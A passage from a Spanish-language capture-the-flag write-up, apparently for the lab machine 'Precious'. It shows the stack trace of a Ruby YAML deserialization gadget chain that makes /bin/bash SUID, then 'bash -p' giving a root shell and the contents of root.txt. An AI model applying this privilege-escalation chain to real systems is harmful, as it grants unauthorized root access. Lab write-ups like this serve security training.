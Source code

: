 ```bash
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:~$ 
```

Ahora la **Bash** es **SUID** y ya podemos ser root

```bash
henry@precious:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:~$ 
```

## Root flag 

```bash
henry@precious:~$ bash -p
bash-5.1# whoami
root
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt 
51d60ca318e6d11b1c69d0813e58a5ba
bash-5.1# hostname
precious
bash-5.1# 
```
